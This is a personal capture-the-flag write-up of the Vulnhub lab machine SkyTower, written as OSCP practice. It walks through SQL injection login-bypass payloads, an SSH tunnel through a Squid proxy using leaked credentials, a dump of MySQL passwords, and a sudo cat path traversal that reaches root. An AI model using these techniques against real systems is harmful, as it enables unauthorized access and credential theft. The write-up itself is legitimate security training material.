 # Write-up SkyTower (OSCP Like box)

- Box Name : SkyTower
- Difficulty : quite easy
- Time to root : 30 minutes

## Introduction

  While waiting for the start of my OSCP journey, I use to train a lot on HTB and Vulnhub Boxes. Today my internet connection was very poor , so I manage de find a way by downloading Skytower form Vulnhub (This box was recommanded for OSCP training)
  
  
## Enumaration

  ### Port scanning
  
  As usual, i'm starting by doing a TCP scan, with common script and service enumaration :
  
  ```
root@kali ~/v/skytower# nmap -sC -sV 172.20.10.4
Starting Nmap 7.70 ( https://nmap.org ) at 2019-02-06 08:16 EST
Nmap scan report for 172.20.10.4
Host is up (0.00028s latency).
Not shown: 997 closed ports
PORT     STATE    SERVICE    VERSION
22/tcp   filtered ssh
80/tcp   open     http       Apache httpd 2.2.22 ((Debian))
_http-server-header: Apache/2.2.22 (Debian)
_http-title: Site doesn't have a title (text/html).
3128/tcp open     http-proxy Squid http proxy 3.1.20
 http-open-proxy: Potentially OPEN proxy.
_Methods supported: GET HEAD
_http-server-header: squid/3.1.20
_http-title: ERROR: The requested URL could not be retrieved
MAC Address: 08:00:27:54:4A:37 (Oracle VirtualBox virtual NIC)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.72 seconds
```

For conclusion, we have a webserver running on port 80, Squid Proxy on 3128, and SSH is filtered...

  ### Port 80
  
  All we have is a simple html login page, running gobuster doesn't reveal much more ...
  No cookie, or strange http headers value, we will come back on this service during exploitation phase.
  
  ### Port 3128
  
  Simple squid, this version doest not seems to be vulnerable to any known vulnerabilites, we need a password to use this service, we are unable to use it now.
  
  ## Exploitation
  
  The first thing to try on this simple login form is SQL injection, we can try do do some login bypass techniques :
  ```admin' OR 1=1--```
  Which return this :
  ```There was an error running the query [You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '11' and password=''' at line 1]```
  
  This is quite good for the following of the pentest, we can now use our SQLi-Fu art to by-pass this login, and the final payload is :
  ```admin' || 1=1#```
  
  Wich give us access to the next page.
  
  The next page is quite useless except a username and a password for john !
  ```
  Username: john
Password: hereisjohn
```

We can now try this on ssh :

```ssh john@172.20.10.4```
But this doesn't work because the port is filtered. Maybe we can bypass this filter by using our creds on Squid Proxy:

```proxytunnel -v -p 172.20.10.4:3128 -P john:hereisjohn -d 127.0.0.1:22 -a 4444```

It works !
We can now try to login on the box with ssh :

```ssh john@127.0.0.1 -p 4444
The authenticity of host '[127.0.0.1]:1234 ([127.0.0.1]:1234)' can't be established.
ECDSA key fingerprint is SHA256:QYZqyNNW/Z81N86urjCUIrTBvJ06U9XDDzNv91DYaGc.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '[127.0.0.1]:1234' (ECDSA) to the list of known hosts.
john@127.0.0.1's password:hereisjohn
Linux SkyTower 3.2.0-4-amd64 #1 SMP Debian 3.2.54-2 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Jun 20 07:41:08 2014

Funds have been withdrawn
Connection to 127.0.0.1 closed.
root@kali:~#
```

Aaaaand ... we are eject by the server.
To bypass this we can simply force the serveur to execute /bin/bash and no .bashrc, then delete bashrc with our shell and then login again.

```
root@kali ~/v/skytower# ssh john@127.0.0.1 -p 4444 
john@127.0.0.1's password: 
Linux SkyTower 3.2.0-4-amd64 #1 SMP Debian 3.2.54-2 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Feb  6 07:59:17 2019 from localhost
john@SkyTower:~$ 

```

And we are in !

## Privelege escalation

### John

We are now connected as John and our goal is to get root shell (or the proof at /root/flag.txt). I decide to enumarate using LinEnum.sh. For keeping this write-up easy to read , I won't post the result here. By the way only one line was interesting :

```Mysql Default cred (root/root) working```

Awesome, we can login to mysql database using root acount. So here we go :

```
mysql> SELECT * FROM login;
+----+---------------------+--------------+
| id | email               | password     |
+----+---------------------+--------------+
|  1 | john@skytech.com    | hereisjohn   |
|  2 | sara@skytech.com    | ihatethisjob |
|  3 | william@skytech.com | senseable    |
+----+---------------------+--------------+
3 rows in set (0.00 sec)

```
"login" was the only table in "Skytech" database, it contains all posix user password. Can't find much more with our friend john, i'll now move to sara.

### Sara

Sara had the same issue with .bashrc, so same trick to bypass :
- Login using /bin/bash
- Remove .bashrc
- Login again normaly

And now... Let's enumerate again ! We can run sudo -l to check if sara is a sudoer.

```
sara@SkyTower:~$ sudo -l
Matching Defaults entries for sara on this host:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User sara may run the following commands on this host:
    (root) NOPASSWD: /bin/cat /accounts/*, (root) /bin/ls /accounts/*
sara@SkyTower:~$ 
```
Nice , sara can use "cat" as root in ```/accouts/*.```
So we can try to read /accounts/../root/flag.txt ... no ?
Let's try this :
```
sara@SkyTower:~$ sudo cat /accounts/../root/flag.txt
Congratz, have a cold one to celebrate!
root password is theskytower
```
This works pretty great ! We can now su root using this password :

```
sara@SkyTower:~$ su root
Password: 
root@SkyTower:/home/sara# whoami
root
```

That's all folks !
